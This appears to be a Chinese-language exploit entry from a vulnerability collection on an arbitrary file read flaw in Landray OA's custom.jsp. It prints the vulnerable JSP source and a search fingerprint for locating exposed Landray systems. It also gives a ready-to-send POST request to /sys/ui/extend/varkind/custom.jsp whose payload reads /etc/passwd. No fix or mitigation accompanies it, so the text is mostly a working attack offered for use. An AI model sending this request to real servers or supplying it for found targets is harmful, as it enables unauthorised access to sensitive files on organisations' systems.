 # 蓝凌OA custom.jsp 任意文件读取漏洞

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息。

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

出现漏洞的文件为 custom.jsp

```plain
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
 JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
 JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
 <c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
```

请求包为

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```

![img](/assets/PeiQi-Wiki/img/lanling-2.png)